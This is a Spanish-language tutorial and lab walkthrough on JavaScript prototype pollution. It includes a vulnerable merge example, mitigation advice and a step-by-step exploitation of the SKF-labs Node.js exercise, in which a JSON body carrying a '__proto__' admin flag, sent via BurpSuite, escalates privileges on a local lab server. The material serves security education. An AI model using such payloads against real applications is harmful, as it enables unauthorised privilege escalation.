




# Prototype Pollution

## ¿Qué es el Prototype Pollution?

El **Prototype Pollution** es una técnica de ataque que explota la forma en la que JavaScript maneja la herencia de objetos. En JavaScript, todos los objetos descienden de un objeto base llamado `Object.prototype`. Esto significa que, si logramos modificar ese prototipo, todos los objetos que hereden de él también se verán afectados.

Este ataque ocurre cuando permitimos que un atacante modifique propiedades del prototipo global mediante la inyección de claves especiales como `__proto__`, `constructor.prototype`, o similares. Esto puede derivar en comportamientos inesperados, como la sobrescritura de variables, ejecución de código malicioso o eludir mecanismos de autenticación.

## ¿Cómo se explota?

Los vectores de ataque más comunes se presentan en aplicaciones que:
- Hacen uso de `Object.assign()`, `lodash.merge()`, o funciones similares sin sanitizar entradas.
- Permiten que los usuarios envíen estructuras de objetos complejas desde el cliente.

## Ejemplo práctico (laboratorio)

Imaginemos que trabajamos con una función vulnerable como la siguiente:

```javascript
function merge(target, source) {
    for (let key in source) {
        target[key] = source[key];
    }
    return target;
}

let config = {};
merge(config, JSON.parse('{"__proto__": {"isAdmin": true}}'));

console.log({}.isAdmin); // true
````

Hemos modificado el prototipo global. Ahora, cualquier objeto tendrá acceso a la propiedad `isAdmin` con valor `true`, lo que podría permitir a un atacante simular privilegios elevados.

## Ejemplo real

Una vulnerabilidad de este tipo fue descubierta en versiones antiguas de la librería `lodash` (antes de la 4.17.5). Esta librería es ampliamente utilizada en aplicaciones Node.js y navegadores. El método `_.defaultsDeep()` podía ser manipulado con entradas como `{"__proto__": {"polluted": "yes"}}`, provocando que cualquier objeto instanciado más adelante incluyera esa propiedad.

Esto fue especialmente crítico porque muchas aplicaciones dependían de esta función para procesar configuraciones de usuario u opciones cargadas dinámicamente, abriendo la puerta a ataques que modificaban el comportamiento de la aplicación sin que los desarrolladores lo detectaran fácilmente.

## Impacto

El impacto puede ser severo:

- Escalada de privilegios.
    
- Ejecución de código malicioso.
    
- Bypass de controles de seguridad (como validaciones o autenticación).
    
- Persistencia en el sistema manipulando objetos compartidos.
    

## Recomendaciones

Para prevenir este tipo de ataque:

- Nunca confiemos en claves de objetos enviadas por el usuario sin sanitización.
    
- Usemos funciones seguras para la combinación de objetos (`structuredClone`, librerías actualizadas).
    
- Validemos explícitamente las claves y evitemos procesar `__proto__`, `constructor`, o `prototype`.
    


---

# ## Entorno vulnerable de práctica

Podemos experimentar con esta vulnerabilidad utilizando el siguiente entorno práctico:

**SKF-LABS**  
Repositorio: [https://github.com/blabla1337/skf-labs](https://github.com/blabla1337/skf-labs)

Este laboratorio incluye ejercicios controlados que nos permiten entender cómo funciona el ataque y cómo mitigarlo.

## Guía paso a paso de su explotación

Acción:

```bash
git clone https://github.com/blabla1337/skf-labs
cd nodeJs
cd Prototype-Pollution
npm install
npm start
```

Resultado:

```bash
 prototype-pollution@1.0.0 start
> nodemon index.js

[nodemon] 2.0.15
[nodemon] to restart at any time, enter `rs`
[nodemon] watching path(s): *.*
[nodemon] watching extensions: js,mjs,json
[nodemon] starting `node index.js`
Listening on port 5000...!!!
```

Explicación: montado el laboratorio por el puerto 5000





Explicación: nos registramos y nos loguearnos, vemos que no se muestra gran cosa, un texto sobre 'Admin:' que si  logramos elevar privilegios nos pondrá 'True'

---

Acción:

```bash
cat index.js
```

Resultado:

```bash
const express = require("express");
const multer = require("multer");
const _ = require("lodash");
const Joi = require("joi");
const validate = require("express-validation");
const upload = multer();
const app = express();

app.set("view engine", "ejs");
app.use(express.static(__dirname + "/static"));
app.use(express.urlencoded({ extended: true }));
app.use(express.json());

const postSchema = {
  body: Joi.object({
    email: Joi.string().email().required(),
    msg: Joi.string().required(),
  }),
};

const users = [
  (admin = {
    username: "admin",
    password: "admin",
    admin: true,
  }),
  (user = {
    username: "user",
    password: "user",
    admin: false,
  }),
];

let session = {};

app.get("", (req, res) => {
  session = {};
  res.render("index", { msg: null });
});

app.get("/register", (req, res) => {
  res.render("register.ejs");
});

app.post("/create", upload.none(), (req, res) => {
  const { username, password } = req.body;
  let newUser = { username, password };
  users.push(newUser);
  res.render("index.ejs", { msg: "User created" });
});

app.post("/message", validate(postSchema), (req, res) => {
  const obj = _.merge({}, req.body, { ipAddress: req.ip });
  res.redirect("/login");
});

app.post("/login", upload.none(), (req, res) => {
  const { username, password } = req.body;
  const user = users.find((user) => user.username === username);
  if (user && user.password === password) {
    session.username = user.username;
    session.isLoggedIn = true;
    res.render("loggedin.ejs", {
      username: user.username,
      admin: user.admin,
    });
  } else {
    res.render("index.ejs", { msg: "Login failed" });
  }
});

app.get("/login", (req, res) => {
  const user = users.find((user) => user.username === session.username);
  session.isLoggedIn
    ? res.render("loggedin.ejs", {
        username: user.username,
        admin: user.admin,
      })
    : res.render("index.ejs", { msg: "Please login" });
});

const port = process.env.PORT || 5000;

app.listen(port, "0.0.0.0", () => console.log(`Listening on port ${port}...!!!`));
```

Explicación: en estos dos apartados vemos las estructura que tiene el código donde se produce lo que vemos en el navegador

```text
const users = [
  (admin = {
    username: "admin",
    password: "admin",
    admin: true,
  }),
  (user = {
    username: "user",
    password: "user",
    admin: false,

---

app.post("/message", validate(postSchema), (req, res) => {
  const obj = _.merge({}, req.body, { ipAddress: req.ip });
  res.redirect("/login");
```

---



Acción: al interceptar esta petición con BurpSuite obtenemos lo siguiente

```text
POST /message HTTP/1.1

Host: localhost:5000

User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: http://localhost:5000/login

Content-Type: application/x-www-form-urlencoded

Content-Length: 49

Origin: http://localhost:5000

DNT: 1

Sec-GPC: 1

Connection: keep-alive

Upgrade-Insecure-Requests: 1

Sec-Fetch-Dest: document

Sec-Fetch-Mode: navigate

Sec-Fetch-Site: same-origin

Sec-Fetch-User: ?1

Priority: u=0, i


email=test%40test.com&msg=Hola+esto+es+una+prueba
```

Resultado: para probar el prototype polution probamos cambiando el `Content-Type` a `json` y su data enviarla en formato json

```text
POST /message HTTP/1.1

Host: localhost:5000

User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: http://localhost:5000/login

Content-Type: application/json

Content-Length: 49

Origin: http://localhost:5000

DNT: 1

Sec-GPC: 1

Connection: keep-alive

Upgrade-Insecure-Requests: 1

Sec-Fetch-Dest: document

Sec-Fetch-Mode: navigate

Sec-Fetch-Site: same-origin

Sec-Fetch-User: ?1

Priority: u=0, i


{

	"email": "test@test.com",

	"msg": "Hola esto es una prueba"

}
```

Resultado:

```text
HTTP/1.1 302 Found

X-Powered-By: Express

Location: /login

Vary: Accept

Content-Type: text/html; charset=utf-8

Content-Length: 56

Date: Tue, 10 Jun 2025 13:29:52 GMT

Connection: keep-alive

Keep-Alive: timeout=5


<p>Found. Redirecting to <a href="/login">/login</a></p>
```

Explicación:  al recibir un 'Status Code 302' vemos que se esta tramitando correctamente la petición, por lo que podemos continuar a ejecutar un *Prototype Polution*


Acción: mandamos el siguiente payload para contaminar el prototipo y setearnos como admin

```bash
{

	"email": "test@test.com",

	"msg": "Hola esto es una prueba",

"__proto__":  {

"admin": true}

}
```

Resultado:

![[burpsuite_1.png]]



Explicación: al enviar el payload vemos que de nuevo tenemos un 'Follow redirection' el cual si pinchamos y vamos a la pestaña de 'Render' vemos que efectivamente elevamos nuestros privilegios a 'Admin'

---